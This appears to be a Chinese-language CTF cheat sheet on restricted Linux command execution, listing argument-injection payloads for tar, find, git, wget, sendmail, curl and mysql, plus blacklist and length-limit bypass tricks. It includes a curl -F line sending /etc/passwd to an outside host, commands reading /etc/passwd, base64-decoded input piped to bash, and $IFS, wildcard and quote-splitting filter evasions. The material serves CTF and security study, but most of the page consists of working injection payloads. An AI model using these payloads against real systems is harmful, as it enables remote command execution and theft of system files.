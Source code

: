# 带限制的shell命令执行

这是在linux下的带限制的shell命令执行总结

## 收藏文章

 [https://err0rzz.github.io/2017/11/13/ctf%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E4%B8%8E%E7%BB%95%E8%BF%87/](https://err0rzz.github.io/2017/11/13/ctf命令执行与绕过/) 

https://www.anquanke.com/post/id/107336

## 可控位置

### 参数部分可控

1. 尝试用`;,&,|,反引号`等来直接执行命令
2. 限制第一种情况,翻一翻参数表,找到可利用的参数



#### 参数注入

##### tar

关键参数:--use-compress-program=

可以造成命令执行

例子:

```shell
tar --use-compress-program='cat /etc/passwd' -cf 2.tar *
cat 2.tar
```



##### find

关键参数: -exec 

例子:` find . -type f -exec 命令 \; -quit`

` find . -type f -exec cat /etc/passwd \; -quit`

` find . -type f -exec echo hello \; -quit`



##### git

关键参数:--open-files-in-pager=

例子:`git grep -i --line-number -e '--open-files-in-pager=命令;' master`

##### wget

关键参数:--directory-prefix

下载example.php

```php
$url = 'http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```

下载并将其保存在特殊位置

```php
$url = '--directory-prefix=/var/www/html http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```

##### sendmail

发送mail.txt。设置来信人为:from@sth.com

`sendmail -t -i -f from@sth.com < mail.txt`

打印/etc/passwd的内容

`sendmail -t -i -f from@sth.com -C/etc/passwd -X/tmp/output.txt < mail.txt`

##### curl

关键参数:-F

下载网页内容:

`curl http://example.com`

将/etc/passwd 发送到http://example.com:xxxx配合监听获取文件内容

`curl -F password=@/etc/passwd http://example.com`

![](http://ww1.sinaimg.cn/large/006pWR9agy1g68qtlpvsqj30nj0iiq4n.jpg)

##### mysql

执行sql语句

`mysql -uuser -ppassword -e  SELECT sth FROM table`

执行命令

`mysql -uuser -ppassword -e  \! 命令`

##### untar

Unpack all `*.tmp` files from `archive.zip` into `/tmp` directory.

```
$zip_name = 'archive.zip';
system(escapeshellcmd('unzip -j '.$zip_name.' *.txt -d /aa/1'));
```

Unpack all `*.tmp` files from `archive.zip` into `/var/www/html` directory.

```
$zip_name = '-d /var/www/html archive.zip';
system('unzip -j '.escapeshellarg($zip_name).' *.tmp -d /tmp');
```

### 命令部分可控



1. 尝试直接执行命令



## 限制条件

### 字符限制

#### 利用linux统配符来匹配文件绕过字符限制

##### 通配符

```shell
* 0到无穷个任意字符
? 一个任意字符
[ ] 一个在括号内的字符，e.g. [abcd]
[ - ] 在编码顺序内的所有字符
[^ ] 一个不在括号内的字符
[! ] 同 ^
```





执行cat命令可以用

`/b?n/c?t .....`

`/bin/c[0-z]t flag`

....自行发挥



#### 某些特殊字符的相互替换

##### 空格

\t和\r和\n代替空格

`$IFS$9` 符号 `${IFS}` 符号代替空格

利用重定向符来代替空格

```shell
cat<>flag
cat<flag
```

##### 杂

- ${PS2} 对应字符 ‘>’
- ${PS4} 对应字符 ‘+’
- ${IFS} 对应 内部字段分隔符
- ${9} 对应 空字符串

### 单词黑名单

#### 利用"",'',和\`\` ,\,$@来绕过单词黑名单

如`l''s,l""s`,l\`\`s,l\s,l$@s

#### 利用字符串操作如base64,rot等等来绕过单词黑名单

\`echo "base64编码"|base64 -d\`和`echo "base64编码"|base64 -d|bash`

#### 变量名拼接

`a=ec;b=ho;$a$b hello`



### 输入长度限制

#### 短命令执行

 [https://err0rzz.github.io/2017/11/13/ctf%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E4%B8%8E%E7%BB%95%E8%BF%87/](https://err0rzz.github.io/2017/11/13/ctf命令执行与绕过/) 

关键命令:

- ls 

-t :按照最后修改时间排序

- sh

#### 实例

```shell
>lo\\
>\ hel\\
>echo\\
ls -t>_
sh _
```